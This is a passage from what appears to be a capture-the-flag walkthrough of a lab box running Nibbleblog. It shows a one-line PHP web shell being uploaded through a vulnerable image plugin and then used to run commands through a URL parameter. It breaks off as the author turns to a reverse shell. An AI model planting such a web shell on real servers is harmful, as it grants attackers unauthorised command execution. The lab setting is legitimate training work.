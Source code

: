     ![](/img/1529838022141.png) So we can
    click "configure" under the vulnerable plugin, "My image". We're
    given an upload form:
    ![](/img/1529838333058.png)
3.  Use the form to upload cmd.php.

    <div>

    <div>

        root@kali# cat cmd.php
        <?php system($_REQUEST['cmd']); ?>

    </div>

    </div>
4.  Visit
    `http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=[command]`
    ![](/img/1529838501643.png)

For whatever reason, I'm finding that my session with this site isn't
lasting long (probably other users logging in and stepping on my shell,
since they are all named image.php). So let's get a real shell. We'll
change out php to this:

